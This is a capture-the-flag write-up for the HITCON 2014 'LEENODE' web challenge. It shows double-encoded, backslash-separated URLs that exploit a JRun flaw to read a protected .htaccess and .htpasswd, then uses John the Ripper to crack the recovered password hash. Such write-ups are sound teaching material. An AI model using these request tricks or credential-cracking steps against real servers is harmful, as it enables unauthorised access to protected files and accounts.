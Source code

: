 # HITCON CTF 2014: LEENODE

**Category:** Web
**Points:** 250
**Description:**

> http://203.66.57.98/

## Write-up

[Source](https://wiki.mma.club.uec.ac.jp/CTF/Writeup/HITCON2014/LEENODE) (Modified only slightly for grammar and Markdown formatting)

1. Perhaps what we need to do is access the `/admin/` directory.
2. The server is Apache/2.0.65 (Unix) JRun/4.0 Server.
3. `*.jsp` was redirected to JRun Server.
*  [http://203.66.57.98/a.jsp](http://203.66.57.98/a.jsp)
4. A vulnerability for JRun exists publicly
* [http://www.kb.cert.org/vuls/id/977440](http://www.kb.cert.org/vuls/id/977440)
5. [http://203.66.57.98/a;.jsp](http://203.66.57.98/a;.jsp) gives a 500 Internal Server Error. Interestingly enough Apache serves up this error, not JRun as expected.
6. Escaping the URL for Apache as such [http://203.66.57.98/a%253b.jsp](http://203.66.57.98/a%253b.jsp) gives a 404 Error by JRun instead of the expected Apache.
7. Apache blocks many attempts to read `/.htaccess` and `/admin/.htaccess` so other tricks are needed.
8. It is discovered that JRun recognizes backslash as a directory separator as [http://203.66.57.98/.%5Ca%253b.jsp](http://203.66.57.98/.%5Ca%253b.jsp) was handled as /a by JRun.
9. Eventually `/admin/.htaccess` and `/admin/.htpasswd` are read using the following URLs respectively
[http://203.66.57.98/.%5Cadmin%5C.htaccess%253b.jsp](http://203.66.57.98/.%5Cadmin%5C.htaccess%253b.jsp)
[http://203.66.57.98/.%5Cadmin%5C.htpasswd%253b.jsp](http://203.66.57.98/.%5Cadmin%5C.htpasswd%253b.jsp)

`.htaccess` reads as follows:

```
AuthName "Restricted Area"
AuthType Basic
AuthUserFile /usr/local/apache2/htdocs/admin/.htpasswd
AuthGroupFile /dev/null
require valid-user
```

`.htpasswd` reads as follows:


```
hitc0n_1een0de:nlGc3XNhkrL1o
```

10. Let’s use John the Ripper to crack the password:

```
% john .htpasswd
ktw2z            (hitc0n_1een0de)
guesses: 1  time: 0:00:01:13 DONE (Sat Aug 16 20:58:25 2014)  c/s: 5319K  trying: ktkcK - kk4iT
```

The password is `ktw2z`.

11. Visit [http://203.66.57.98/admin/thefl4g.txt](http://203.66.57.98/admin/thefl4g.txt) and get the flag

```
The flag is HITCON{u_d0nt_f0rg3t_d0uble_3nc0ding!}
```

## Other write-ups

* none yet
